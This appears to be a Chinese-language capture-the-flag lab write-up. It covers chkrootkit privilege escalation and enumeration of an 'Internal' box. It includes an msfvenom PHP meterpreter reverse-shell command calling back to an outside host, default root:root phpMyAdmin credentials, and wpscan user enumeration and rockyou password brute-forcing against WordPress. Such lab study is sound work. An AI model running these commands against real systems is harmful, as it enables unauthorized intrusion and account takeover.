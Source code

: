 ```
msfvenom -p php/meterpreter/reverse_tcp LHOST=61.139.2.153 LPORT=443 > shellde_php.php 

# msf需要配置相同的payload
```

![image.png](https://s2.loli.net/2025/05/01/LxsEiDIMBJa76HX.png)

search chrootkit 配置lport和session就能成功提权

![image.png](https://s2.loli.net/2025/05/01/GmzInQTrN4y6WXb.png)

# Internal

## nmap扫描端口
## feroxbuster爆破文件路径

发现有个wordpress和phpadmin这两个东西

## wordpress信息收集

wpscan扫描 没有发现枚举用户

其实是只开始的时候弄错了路径

```
wpscan --url http://10.10.26.101/blog --enumerate u
```

![image.png](https://s2.loli.net/2025/05/01/3IevRSJK8961jHx.png)


## phpmyadmin信息收集

这个用了root:root登录进去

## 卡死了
现在唯独两个要点 一个是 wordpress 一个是phpmyadmin 不知道下一步如何解决


## wordpress爆破密码
```
wpscan --url http://10.10.26.101/blog --usernames=admin --passwords=/root/rockyou.txt -t 600
```

![image.png](https://s2.loli.net/2025/05/01/tnSm3dzhbXLGJYy.png)

成功破解出来

## 反弹shell到kali
登录进wp之后 就想办法反弹shell到kali
